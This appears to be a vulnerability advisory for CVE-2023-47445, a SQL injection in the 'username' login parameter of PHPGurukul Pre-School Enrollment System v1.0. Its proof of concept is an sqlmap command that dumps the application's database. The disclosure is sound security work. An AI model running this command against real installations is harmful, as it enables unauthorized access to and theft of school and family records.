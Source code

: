 # CVE-2023-47445 PHPGurukul-Pre-School-Enrollment-System-v1.0 SQL Injection Vulnerability

- **Author:** Mehmetcan TOPAL

# Vendor and Software Links
https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql

https://phpgurukul.com/?sdm_process_download=1&download_id=17445

# Overview

- PHPGurukul Pre-School Enrollment System v1.0 contains a notable security vulnerability due to inadequate protection on the 'username' parameter within the preschool/admin/ page. This weakness may be exploited to inject harmful SQL queries, potentially resulting in unauthorized access and the extraction of sensitive information from the database.

# Details of Vulnerability
- CVE-ID: CVE-2023-47445
- Application Name: Pre-School Enrollment System
- Affected Version: v1.0
- Vulnerable Parameter: username

# Vulnerability Description

- The code directly includes the 'username' and parameter received from the user into the SQL query. This situation causes a SQL injection attack. An attacker can log into the system without authorization and obtain information in the database.

![image](https://github.com/termanix/PHPGrukul-Pre-School-Enrollment-System-v1.0/assets/50464194/0ac211ea-3f59-4c19-b527-f852b8299c42)

# Proof of Concept

- `sqlmap -u "http://localhost/preschool/admin" -p "username" --data="username=admin&inputpwd=admin&login=" --method="POST" --risk=3 --level=5 --dbms MySQL --batch -D preschooldb --dump`

![image](https://github.com/termanix/PHPGrukul-Pre-School-Enrollment-System-v1.0/assets/50464194/e51c54a7-b7b0-4412-9c68-f726972202ec)
